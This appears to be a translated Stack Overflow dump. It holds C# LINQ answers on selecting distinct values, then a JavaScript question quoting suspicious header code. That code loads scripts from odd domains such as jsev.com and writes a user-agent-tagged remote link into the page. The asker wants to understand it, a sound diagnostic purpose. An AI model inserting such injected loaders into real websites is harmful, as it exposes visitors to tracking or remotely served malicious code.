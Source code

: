 无论如何，我没有测试这个 IRL，但它不会只是这个吗？

```
var results = (from QItem in dataContext.QItems
                where QItem.SItem.OtherID == 76
                select QItem.HighLevelName).Distinct(); 
```

* * *

## 回答 #2

> 赞同：2
> 
> 时间：2008-10-16T21:07:48.187

使用 Troy 的答案，这种查询方法也有效。

```
List<string> highLevelNames = dataContext
  .Q
  .Where<Q>(item => item.S.OtherID == id)
  .Select<Q, string>(item => item.HighLevelNAme)
  .Distinct()
  .ToList<string>(); 
```

# javascript - 为什么这么多网页的标题中包含如此奇怪的代码片段？

> ID：210180
> 
> 赞同：4
> 
> 时间：2008-10-16T20:32:26.683
> 
> 标签：javascript, html, virus

很长一段时间以来，我的firefox状态栏中不时出现jsev.com、cssxx.com等奇怪的域，我一直想知道为什么这么多网页包含来自这些奇怪域的资源。我用谷歌搜索，但一无所获。我猜这是某种感染服务器并插入代码的病毒。[以下是从http://www.eflorenzano.com/threadexample/blog/](http://www.eflorenzano.com/threadexample/blog/)的页眉中获取的示例：

```
<script language="javascript" src="http://i.jsev.com./base.2032621946.js"> </script>
<body onmousemove="return fz3824();">
<LINK REL="stylesheet" TYPE="text/css" HREF="http://i.cssxx.com./base2032621947.css">
<A HREF = "http://i.html.com./base2032621947.html"></A>
<SCRIPT LANGUAGE="JAVASCRIPT" SRC="http://i.js.com./base2032621947.js"></SCRIPT>
<SCRIPT LANGUAGE="JAVASCRIPT">
function getuseragnt()
{ var agt = navigator.userAgent.toLowerCase();
  agt = agt.replace(/ /g, "");
  return agt;
}
document.write("<LINK REL='stylesheet' TYPE='text/css' HREF='http://i.css2js.com./base.css" + getuseragnt() + "_2032621947'>") 
</SCRIPT> 
```
